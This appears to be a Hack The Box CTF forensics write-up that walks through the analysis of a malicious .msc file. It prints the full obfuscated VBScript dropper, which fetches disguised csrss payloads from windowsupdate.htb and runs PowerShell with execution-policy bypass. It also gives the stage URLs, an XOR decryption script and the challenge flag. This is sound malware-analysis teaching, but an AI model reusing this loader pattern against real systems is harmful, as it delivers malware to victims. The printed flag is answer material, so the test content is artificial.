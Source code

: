 
# Binary Badresources - CTF Challenge Write-Up

## Challenge Overview

**Category:** Forensics  
**Challenge Name:** Binary Badresources

**Description:**

A malicious syndicate from the far reaches of the Frontier has deployed a weapon disguised as a harmless gift. This weapon lies dormant until activated, compromising the defensive line and allowing invaders to take control of the stronghold. Defenders must reverse-engineer and decode the weapon's mechanism to disable it and protect the Frontier Cluster.

We are provided with a file named `wanted.msc`.

---

## Walkthrough

### Step 1: Initial Analysis

The challenge file, `wanted.msc`, was inspected to identify any suspicious behavior or obfuscation. The file appeared to be a combination of XML and embedded VBScript. The use of obfuscation indicated the presence of concealed functionality, suggesting that the file might be malicious. To proceed, we needed to decode the obfuscated VBScript.

### Step 2: Decoding Obfuscation

To decode the obfuscated content, we utilized the **Obfuscator.io Deobfuscator**, a tool designed to reverse obfuscation in VBScript. This tool was particularly helpful in revealing the hidden script. The decoded content contained a large loop that built a string using a combination of `Asc` (to get the ASCII value) and `chr` (to convert it back to characters). This string was then decrypted through a series of arithmetic operations.

Here is a snippet of the decoded VBScript:
<p align='center'>
  <img src='img/1.png' alt="HTB">
</p>
Below is a snippet of the decoded content:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```
### Step 3: Reverse Engineering the Payload

The embedded script revealed an obfuscated string, which was then decoded using **CyberChef**. The string contained URLs that pointed to potentially malicious resources:

<p align='center'>
  <img src='img/2.png' alt="HTB">
</p>

```c#
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
```
### Step 4: Decrypting the Files

The next step was to retrieve and decrypt the files referenced in the URLs. We suspected that these files were encrypted using XOR encryption with `csrss.dll` as the key. To decrypt the files, we implemented the following Python script that uses XOR decryption:

```python
def xor_decrypt(file_path, key_path, output_path):
    with open(file_path, "rb") as f, open(key_path, "rb") as k:
        file_content = bytearray(f.read())
        key = bytearray(k.read())
        key_len = len(key)
        
        for i in range(len(file_content)):
            file_content[i] ^= key[i % key_len]
        
    with open(output_path, "wb") as out:
        out.write(file_content)

# Decrypt the files
xor_decrypt("csrss.exe", "csrss.dll", "csrss_decrypted.exe")
xor_decrypt("csrss.exe.config", "csrss.dll", "csrss_config_decrypted")
xor_decrypt("wanted.pdf", "csrss.dll", "wanted_decrypted.pdf")
```
### Step 5: Analyzing Decrypted Files

After decryption, the `csrss.exe.config` file revealed an additional URL:

```plaintext
http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json
```

Upon downloading and analyzing the file, we found that it contained a **C# executable**. The next step was to decompile this executable to understand its contents.

### Step 6: Decompiling the C# Executable

To decompile the C# executable, we used **CodeMerx**. The decompiled content revealed the following key findings:

- The presence of **Base64-encoded data**.
- The use of **AES encryption** with a hard-coded key.

Here is an image showing the decompiled content:

![Decompiled C# Executable](img/4.png)

![AES Encryption Key](img/3.png)

### Step 7: Extracting the Flag

Upon further investigation, we downloaded the file located at:

```plaintext
http://windowsupdate.htb/ec285935b46229d40b95438707a7efb2282f2f02.xml
```

By running the `strings` command on the XML file, we successfully extracted the flag:

```
HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}
```

---

## Conclusion

In this challenge, we successfully reversed the obfuscated VBScript, decoded the hidden URLs, decrypted the files, and analyzed the C# executable to uncover the final flag. Each step required careful analysis, reverse engineering, and cryptographic techniques, leading to the successful completion of the challenge.
